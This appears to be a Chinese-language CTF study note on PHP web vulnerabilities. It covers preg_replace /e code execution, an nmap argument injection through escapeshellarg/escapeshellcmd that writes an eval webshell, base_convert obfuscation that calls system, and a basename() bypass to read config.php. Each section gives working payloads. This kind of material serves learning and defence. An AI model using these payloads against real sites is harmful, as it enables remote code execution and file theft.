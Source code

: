 ## **preg_replace函数代码执行**
preg_replace接收三个参数，$pat是正则表达式为/e时。
第二个参数是代码，第三个参数被匹配，则第二个参数会代码执行。
第三个参数$sub如果${}包裹里面会被代码执行
```
preg_replace($pat,$rep,$sub);

?pat=/abc/e&rep=system('ls')&sub=abc
```


^
正则替换函数
```
function getFlag(){
    @eval($_GET['cmd']);
}

//将每个get传参的参数和参数值进行匹配
foreach($_GET as $re => $str) {
    echo complex($re, $str). "\n";
}

function complex($re, $str) {
    return preg_replace(
        '/(' . $re . ')/ei',
        'strtolower("\\1")',
        $str
    );
}
```



```
如果传参
参数 "/([A-Z])/"; // 匹配大写字母的正则表达式
值 "Hello World"

preg_replace 函数来将字符串中的大写字母转换为小写字母：
这段代码执行后会输出 "hello world"
```
这里的漏洞出在preg_replace /e 模式下。
值用${}包裹后会代码执行。
```
比如我们传入  ?.*={${phpinfo()}}
原句：preg_replace('/(' . $re . ')/ei','strtolower("\\1")',$str); 
就变成preg_replace('/(' .* ')/ei','strtolower("\\1")',{${phpinfo()}});

又因为$_GET传入首字母是非法字符时候会把 .（点号）改成下划线，因此得将\.*换成\S*

所以payload：?\S*=${getFlag()}&cmd=system('ls /'); 
此时getFlag()会被代码执行，调用函数，即可使用cmd。
```


^
## **过滤函数**
```
$host = $_GET['host'];
$host = escapeshellarg($host);
$host = escapeshellcmd($host);
echo system("nmap -T5 -sT -Pn --host-timeout 2 -F ".$host);
```
利用特性，和namp参数写文件webshell
```
?host=' <?php @eval($_POST["cmd"]);?> -oG test.php '
或直接读
?host=' <?php echo `cat /flag`;?> -oG test.php '
```



^
## **进制转换函数**
```
base_convert(37907361743,10,36) = "hex2bin"

hex2bin(5f 47 45 54) = "_GET"

dechex(1598506324) =  "5f 47 45 54"

_GET = base_convert(37907361743,10,36)(dechex(1598506324))

变量覆盖
/?c=$p=base_convert(37907361743,10,36)(dechex(1598506324));($$p){pi}(($$p){abs})&pi=system&abs=cat /flag
```


^
^
## **basename()场景漏洞**
源代码：
```
if (preg_match('/config\.php\/*$/i', $_SERVER['PHP_SELF'])) {
  exit("I don't know what you are thinking, but I won't let you read it :)");
}
if (isset($_GET['source'])) {
    highlight_file(basename($_SERVER['PHP_SELF']));
}
```
我们要包含高亮config.php
`$_SERVER['PHP_SELF']`会获取我们当前的访问路径，并且PHP在根据URI解析到对应文件后会忽略掉URL中多余的部分，即若访问存在的index.php页面，如下两种UR均会访问到。
```
/index.php
/index.php/dosent_exist.php
```
`basename`可以理解为对传入的参数路径截取最后一段作为返回值，但是该函数发现最后一段为不可见字符时会退取上一层的目录，basename只能转换ASCII码内的字符。即：
```
$var1="/config.php/test"
basename($var1)	=> test
$var2="/config.php/%ff"
basename($var2)	=>	config.php
```
`$_SERVER['PHP_SELF']`提交index.php/config.php时，经过basename过滤后只剩下config.php，需要绕过的只有正则，basename只能转换ASCII码内的字符，通过超过ASCII码范围的字符进行绕过。

接下来就显然了，通过构造URI让其包含`config.php`这个文件名再让`basename`函数截取出来，之后通过请求参数`source`就能显示`config.php`的源码，也就能见到`flag`了。
```
/index.php/config.php/%ff?source
```


